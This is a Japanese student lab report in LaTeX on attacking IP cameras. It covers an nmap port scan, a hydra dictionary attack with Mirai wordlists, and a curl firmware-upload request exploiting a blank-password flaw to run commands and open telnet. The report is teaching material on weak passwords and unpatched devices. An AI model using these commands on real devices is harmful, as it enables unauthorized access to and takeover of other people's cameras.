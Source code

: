 \documentclass{jlreq}
\title{演習2}
\author{1270360:稗田隼也}
\date{1月21日}
\begin{document}
\maketitle
\section{安易なパスワードの危険性}
安易なパスワードを使うことで辞書型攻撃などの攻撃で容易にパスワードを知ることができ、不正アクセスをされる危険性がある。今回は一連の流れについて学んだことを説明する。
\section{方法}
今回行うのはipカメラの攻撃についてだ。流れとしてポートスキャンにより、ipカメラが動いているポートを特定し、アクセスする。今回は、攻撃用の踏み台サーバーに入ることで行うので今現在のpcでurlからアクセスできるかも知れないが、今回はssh転送を使い、自分のローカルホストからアクセスする。
アクセスすると、ユーザー名とパスワードが要求されるので、辞書型攻撃を使い、特定する。特定できた情報を入力することでアクセスできる。
\begin{lstlisting}[caption=switch,label=fuga]
    nmap –Pn –n –A –p- <ipカメラのIPアドレス>
\end{lstlisting}
nmapを使用することで指定のipのサービスとポートを特定できる。
\begin{lstlisting}[caption=switch,label=fuga]
    hydra –t 5 –L /opt/iot/mirai/user.txt –P 
    /opt/iot/mirai/pass.txt http-get://<ipカメラのIPアドレス>:特定できたポート/
\end{lstlisting}
hydraを使うことで登録されている辞書のデータを参照して総当りができる。
以上の作業を行うことで、不正にアクセスできてしまう。そのためパスワードを設定するときは辞書にないようなパスワードにする必要がある。
\section{アップデートをしない危険性}
また、アップデートを行わないことで発見された脆弱性がそのままになり、とても危険な状態になる。今回はその例を実験した。

\section{方法}
ipカメラには外部からアップデートファイルを送って実行させる際パスワードが必要だが、空欄で実行できてしまう脆弱性が存在する。
\begin{lstlisting}[caption=switch,label=fuga]
    curl –X POST –F “file1=@fw.bin;filename=fw.bin” 
    “http://<機器のIPアドレス>:45678/upgrade_firmware.cgi?loginuse&loginpas”
\end{lstlisting}
curlを実行することで指定の動作をリクエストできる。リクエストするファイルに実行させたいコマンドを記述することで実行できてしまう。
ただし、アップデートファイルに忍ばせる関係上、再起動してしまうので怪しまれないためにtelnetサーバーを起動させるような実行をさせることが多い。
\section{演習の感想}
今回の演習で、特に、アップデートをしないことで生まれる脆弱性の恐ろしさについて学べた。
\end{document}
